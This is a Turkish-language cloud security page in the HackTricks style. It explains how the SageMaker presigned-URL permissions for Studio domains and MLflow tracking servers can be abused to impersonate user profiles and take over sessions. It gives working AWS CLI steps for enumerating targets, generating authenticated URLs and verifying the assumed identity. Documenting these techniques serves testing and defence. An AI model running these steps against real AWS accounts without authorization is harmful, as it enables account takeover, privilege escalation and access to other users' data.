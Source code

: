 # AWS - SageMaker Yetkisiz Erişim

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Hesap Ele Geçirme aracılığıyla CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Açıklama
Bir kimlik, hedef Studio `UserProfile` üzerinde `sagemaker:CreatePresignedDomainUrl` çağırma iznine sahipse, o profil olarak doğrudan SageMaker Studio'ya kimlik doğrulayan bir giriş URL'si oluşturabilir. Bu, saldırganın tarayıcısına profilin `ExecutionRole` izinlerini devralan ve profilin EFS tarafından desteklenen home dizinine ve uygulamalarına tam erişim sağlayan bir Studio oturumu verir. `iam:PassRole` veya konsol erişimi gerekmez.

### Gereksinimler
- Bir SageMaker Studio `Domain` ve içinde bir hedef `UserProfile`.
- Saldırganın principal'inin hedef `UserProfile` üzerinde `sagemaker:CreatePresignedDomainUrl` iznine (resource‑level) veya `*`'a sahip olması gerekir.

Minimal policy örneği (tek bir `UserProfile` ile sınırlandırılmış):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Kötüye Kullanım Adımları

1) Hedefleyebileceğiniz bir Studio Domain ve UserProfiles'i Enumerate edin
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Bir presigned URL oluşturun (varsayılan olarak ~5 dakika geçerli)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Döndürülen URL'yi bir tarayıcıda açarak hedef kullanıcı olarak Studio'ya giriş yapın. Studio içindeki bir Jupyter terminalinde etkin kimliği doğrulayın:
```bash
aws sts get-caller-identity
```
Notlar:
- `--landing-uri` atlanabilir. Bazı değerler (örn., `app:JupyterLab:/lab`) Studio'nun sürüm/türüne bağlı olarak reddedilebilir; varsayılanlar genellikle Studio ana sayfasına ve ardından Jupyter'e yönlendirir.
- Org politikaları/VPC endpoint kısıtlamaları yine de ağ erişimini engelleyebilir; token oluşturma konsola giriş veya `iam:PassRole` gerektirmez.

### Etki
- ARN'si izin verilen herhangi bir Studio `UserProfile`'unu üstlenerek, onun `ExecutionRole`'ünü ve dosya sistemi/uygulamalarını devralmak suretiyle yatay hareket ve ayrıcalık yükseltme.

### Deliller (kontrollü bir testten)
- Hedef `UserProfile` üzerinde yalnızca `sagemaker:CreatePresignedDomainUrl` izni olduğunda, saldırgan rolü başarılı şekilde şu örnekteki gibi bir `AuthorizedUrl` döndürdü:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Doğrudan bir HTTP isteği, URL'nin geçerli olduğunu ve süresi dolana kadar etkin olduğunu doğrulayarak Studio'ya bir yönlendirme (HTTP 302) ile yanıt verir.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Açıklama
Hedef bir SageMaker MLflow Tracking Server için `sagemaker:CreatePresignedMlflowTrackingServerUrl` çağırma iznine sahip bir kimlik, o sunucu için yönetilen MLflow UI'ye doğrudan kimlik doğrulayan tek kullanımlık bir presigned URL oluşturabilir. Bu, meşru bir kullanıcının sunucuya sahip olduğu aynı erişimi sağlar (deneyleri ve çalıştırmaları görüntüleme/oluşturma ve sunucunun S3 artifact deposundan artifact'leri indirme/yükleme) console erişimi veya `iam:PassRole` olmadan.

### Gereksinimler
- Hesap/bölge içinde bir SageMaker MLflow Tracking Server ve onun ismi.
- Saldırgan kimliğinin hedef MLflow Tracking Server kaynağı üzerinde `sagemaker:CreatePresignedMlflowTrackingServerUrl` iznine (veya `*`) ihtiyacı vardır.

Minimal policy örneği (tek bir Tracking Server ile sınırlandırılmış):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Kötüye Kullanım Adımları

1) Hedefleyebileceğiniz MLflow Tracking Servers'ı enumerate edin ve bir isim seçin
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) MLflow UI için önceden imzalanmış bir URL oluşturun (kısa süreli geçerli)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Döndürülen URL'yi bir tarayıcıda açın; bu, ilgili Tracking Server için MLflow UI'ya kimliği doğrulanmış bir kullanıcı olarak erişmenizi sağlar.

Notlar:
- Tracking Server hazır bir durumda olmalıdır (ör. `Created/Active`). Hâlâ `Creating` durumundaysa, çağrı reddedilecektir.
- The presigned URL tek kullanımlıktır ve kısa ömürlüdür; gerektiğinde yeni bir tane oluşturun.

### Impact
- Hedeflenen Tracking Server için yönetilen MLflow UI'ya doğrudan erişim; bu, sunucu yapılandırması tarafından uygulanan izinler dahilinde deneyleri/çalıştırmaları görüntüleme ve değiştirme ile sunucunun yapılandırılmış S3 artifact store'unda saklanan artefaktların indirilmesini veya yüklenmesini sağlar.

{{#include ../../../../banners/hacktricks-training.md}}
